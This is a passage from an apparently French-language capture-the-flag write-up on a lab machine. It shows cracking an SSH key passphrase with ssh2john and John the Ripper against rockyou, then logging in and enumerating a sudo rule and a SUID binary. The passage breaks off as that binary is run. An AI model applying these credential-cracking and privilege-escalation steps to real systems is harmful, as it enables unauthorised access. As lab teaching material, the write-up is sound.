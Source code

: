 Si on tente de l'utiliser, on voit qu'elle nécessite un mot de passe :

```console
$ ssh -i violent.key violent@192.168.56.102
Enter passphrase for key 'violent.key':
```

Pour la casser, il faut d'abord en extraire un hash avec `ssh2john` :

```bash
python ssh2john.py violent.key > hash.txt
```

Et ça tombe :

```console
$ john --wordlist=rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [MD5/bcrypt-pbkdf/[3]DES/AES 32/64])
Cost 1 (KDF/cipher [0:MD5/AES 1:MD5/[3]DES 2:bcrypt-pbkdf/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
ihateu           (violent.key)     
1g 0:00:01:12 DONE (2025-05-19 20:17) 0.01374g/s 17.15p/s 17.15c/s 17.15C/s ramona..shirley
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Frank Dubosc

Une fois connecté avec ce compte, on découvre une règle sudo pour exécuter un binaire :

```console
violent@suidyrevenge:~$ sudo -l
Matching Defaults entries for violent on suidyrevenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User violent may run the following commands on suidyrevenge:
    (root) NOPASSWD: /usr/bin/violent
```

À première vue ce programme n'a rien d'intéressant :

```console
violent@suidyrevenge:~$ strings /usr/bin/violent
/lib64/ld-linux-x86-64.so.2
libc.so.6
printf
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
WhatImdoH
ingWithMH
yLifeGODH
[]A\A]A^A_
IM VIOLENT
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
--- snip ---
violent@suidyrevenge:~$ ls -al /usr/bin/violent
-rwsr-sr-x 1 root violent 16608 Oct  1  2020 /usr/bin/violent
violent@suidyrevenge:~$ sudo /usr/bin/violent
```